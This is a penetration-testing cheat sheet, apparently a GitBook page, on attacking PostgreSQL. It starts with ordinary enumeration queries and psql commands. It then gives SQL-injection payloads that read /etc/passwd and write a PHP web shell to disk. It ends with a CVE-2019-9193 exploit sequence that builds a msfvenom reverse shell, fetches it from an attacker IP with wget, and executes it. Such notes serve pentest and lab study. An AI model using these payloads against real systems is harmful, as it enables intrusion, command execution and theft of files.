# 5432 - PostgreSQL

## Usage

PostgreSQL stores metadata in tables beggining with `pg_`.

{% tabs %}
{% tab title="Version" %}
```sql
SELECT version();
```
{% endtab %}

{% tab title="Current User" %}
```sql
SELECT current_user;
```
{% endtab %}

{% tab title="Databases" %}
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```sql
// Query only user-created tables (excluding `pg_` tables)
SELECT table_name FROM <database>.information_schema.tables WHERE table_schema='public';
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name='<table>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can connect via CLI with `psql`.

{% tabs %}
{% tab title="Connect" %}
```bash
psql -h 127.0.0.1 -U postgres
```
{% endtab %}
{% endtabs %}

```bash
# Listing dbs
postgres=# \l
# Connecting to a db
postgres=# \c cozyhosting
# Listing tables
cozyhosting=# \dt
# Dumping data
cozyhosting=# select * from users;
```

## SQLi

### Read/Write

* `COPY FROM` -> insert data **into a table from a file** (the PostgreSQL process must have `read` access to the file and the user making the query permissions to create a new table).

```sql
// example using stacked queries
create table tmp(data text); // create the table tmp with one column named data
copy tmp from '/etc/passwd'; // copy the file contents into the tmp table
select * from tmp; // select all data from the tmp table
```

* `COPY TO` -> copy data **to a file from a table** (the PostgreSQL process must have `write` permissions to the directory where the file will be created).

```sql
1';copy(select '<?php passthru($_GET["cmd"]);?>') to '/var/tmp/cmd.php';-- -
```

* `pg_read_file()` -> instead of inserting the results into a table, it just returns a single field containing all the data (useful if the PostgreSQL process has `read` access on the file, but the user querying don't have permissions to create a new table).

```sql
SELECT pg_read_file('/var/tmp/proof.txt');
```

## RCE

PostgreSQL `9.3`-`11.7` has an authenticated RCE vulnerability ([CVE-2019-9193](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)) with an available [PoC](https://www.exploit-db.com/exploits/50847).

{% code overflow="wrap" %}
```bash
# Create a revese shell payload
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=80 -f elf -o revshell.elf
​
# Transfer the file
$ python3 50847.py -i nibbles -p 5437 -U postgres -P postgres -c 'wget 192.168.45.170/revshell.elf -O /tmp/revshell.elf'
​
# Assign execute permissions
$ python3 50847.py -i nibbles -p 5437 -U postgres -P postgres -c 'chmod +x /tmp/revshell.elf'
​
# Execute the file
$ python3 50847.py -i nibbles -p 5437 -U postgres -P postgres -c '/tmp/revshell.elf'
```
{% endcode %}
